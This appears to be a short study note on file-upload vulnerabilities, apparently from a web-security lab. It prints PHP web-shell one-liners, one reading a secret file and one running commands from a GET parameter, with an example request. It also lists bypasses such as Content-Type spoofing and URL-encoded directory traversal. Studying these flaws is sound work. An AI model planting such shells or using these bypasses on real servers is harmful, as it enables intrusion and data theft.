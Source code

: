 Depends on:

- Which aspect of the file the website fails to validate properly, whether that be its size, type, contents, and so on.
- What restrictions are imposed on the file once it has been successfully uploaded.

For example, failing to validate the file size may lead to DoS attacks

Examples:
- PHP oneliner to retrieve files on system: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- PHP general oneliner:  `<?php echo system($_GET['command']); ?>` which can be followed by a request of type: `GET /example/exploit.php?command=id HTTP/1.1`

## Vulnerabilities
- `Content-Type` header, which is trusted and can be changed (to `image/jpeg` for example)
- Nothing in place -> upload whatever you want
- Upload to different places. Indeed, target upload place is often more restricted (like cannot execute file there). May need to obfuscate directory transversal path with url encoding